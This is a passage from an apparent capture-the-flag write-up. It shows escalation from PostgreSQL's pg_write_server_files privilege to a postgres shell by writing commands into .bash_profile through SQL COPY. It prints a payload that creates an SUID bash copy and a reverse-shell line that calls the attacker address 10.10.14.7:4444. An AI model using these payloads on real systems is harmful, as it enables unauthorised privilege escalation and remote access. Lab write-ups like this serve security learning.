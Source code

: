 ### PostGreSQL Privileges --> Postgres Shell

We can first enumerate the privileges we have with `\du`:

```
 Role name |                         Attributes                         |        Member of        
-----------+------------------------------------------------------------+-------------------------
 download  |                                                            | {pg_write_server_files}
 postgres  | Superuser, Create role, Create DB, Replication, Bypass RLS | {}
```

Interestingly, we are given the `pg_write_server_files` privilege. The database itself does not have any interesting information, so we are supposed to use this privilege to escalate to `postgres`.&#x20;

Since we have an arbitrary write as this user, I thought of creating a `/bin/bash` SUID binary to escalate to it. Being able to write files as the `postgres` user is no good if we cannot execute it as `postgres`.&#x20;

I noticed that `root` runs `su -l postgres`, meaning that that user is being logged into periodically. This means that files like `.bashrc` and `.profile` are being executed when this command is executed. Using our file write abilities, we can write in some commands to the `.bash_profile` file, which would be executed when `root` logs in as `postgres`.&#x20;

I used this to spawn an SUID shell:

```sql
COPY (SELECT CAST ('cp /bin/bash /tmp/sql_shell;chmod 4777 /tmp/sql_shell;'AS text)) TO '/var/lib/postgresql/.bash_profile';
```

After waiting for a bit, we can move laterally:

<figure><img src="../../.gitbook/assets/image (4150).png" alt=""><figcaption></figcaption></figure>

However, we are still technically `wesley`instead of `postgres` even if the EUID changes. We can replace the command executed with a reverse shell instead:

```sql
COPY (SELECT CAST('bash -i >& /dev/tcp/10.10.14.7/4444 0>&1' AS text)) TO '/var/lib/postgresql/.bash_profile';
```

Then on a listener port, we would get a `postgres` shell:

<figure><img src="../../.gitbook/assets/image (4151).png" alt=""><figcaption></figcaption></figure>
